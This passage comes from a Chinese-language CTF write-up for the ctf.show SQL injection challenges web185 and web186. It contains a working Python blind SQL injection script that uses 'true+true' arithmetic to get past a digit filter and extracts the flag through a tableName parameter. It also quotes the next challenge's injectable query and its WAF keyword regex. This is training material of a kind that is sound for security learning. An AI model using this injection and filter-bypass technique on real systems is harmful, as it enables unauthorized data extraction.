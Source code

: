 多过滤了数字。

sql语句中 true 即为 1 ，`true+true=2` ，写个脚本

```python
# @Author: yanmie

import requests

url = "http://dfd3af46-a52f-48ad-a9de-077c48c0597a.chall.ctf.show/select-waf.php"
payload = "ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{},{})regexp(char({})))"
i =5
flag = "flag{"

def createNum(n):
    num = 'true'
    if num == 1:
        return 'true'
    else:
        for i in range(n-1):
            num += '+true'
        return num;

while True:
    i += 1
    for j in range(127):
        data ={
            "tableName":payload.format(createNum(i),createNum(1),createNum(j))
        }
        response = requests.post(url=url,data=data)
        # print(i,j,data)
        # print(response.text)
        # if response.text.find("$user_count = 43;") > 0:
        if "$user_count = 43;" in response.text:
            if chr(j) != ".":
                flag += chr(j)
                break;

    print(flag.lower())
    if chr(j) == '}':
        break
```

## web186

> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
>   $sql = "select count(*) from ".$_POST['tableName'].";";
>       
> ```
>
> 返回逻辑
>
> ```
> //对传入的参数进行了过滤
>   function waf($str){
>     return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\%|\<|\>|\^|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
>   }
> 
>       
> ```